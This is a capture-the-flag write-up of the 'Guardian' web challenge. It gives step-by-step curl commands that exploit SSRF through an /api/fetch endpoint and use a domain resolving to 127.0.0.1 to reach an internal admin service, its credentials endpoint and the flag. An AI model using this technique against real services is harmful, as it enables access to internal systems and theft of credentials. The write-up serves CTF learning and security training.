







# [Web] Guardian - 350

We are given with the link to to https://guardian.project-ag.org



Looking at the home page and the functional APIs we're presented, we can do some kind of SSRF to `/api/fetch`. 

We tested out how the `/api/fetch` works by accesing it first directly.



With the returned info by the api endpoint, we can now send POST or GET methods on reachable endpoints allowed by it. However, (not in screenshot) it says that it has protection to internal access attempts. So we thought that what if we use a registered domain that points to 127.0.0.1? `fbi.com` seems to fit our requirement.



Additionally, during the CTF, a hint was given it was only "30070". We figured it may be the internal service port we have to connect to. So we tried it...

```bash
curl 'https://guardian.project-ag.org/api/fetch' -X POST -H "Content-Type: application/json" -d '{"url":"http://fbi.com:30070", "data":{}, "method":"GET"}'
```



And it worked! We tried accessing `/admin` and it returned more info.

```bash
curl 'https://guardian.project-ag.org/api/fetch' -X POST -H "Content-Type: application/json" -d '{"url":"http://fbi.com:30070/admin", "data":{}, "method":"GET"}'
```




According to the info, there's also an endpoint to `/admin/credentials`.

```bash
curl 'https://guardian.project-ag.org/api/fetch' -X POST -H "Content-Type: application/json" -d '{"url":"http://fbi.com:30070/admin/credentials", "data":{}, "method":"GET"}'
```



We tried cracking the hash but we didn't get any result so we tried to pass it as an argument to `/admin/flag`.



We got the flag.


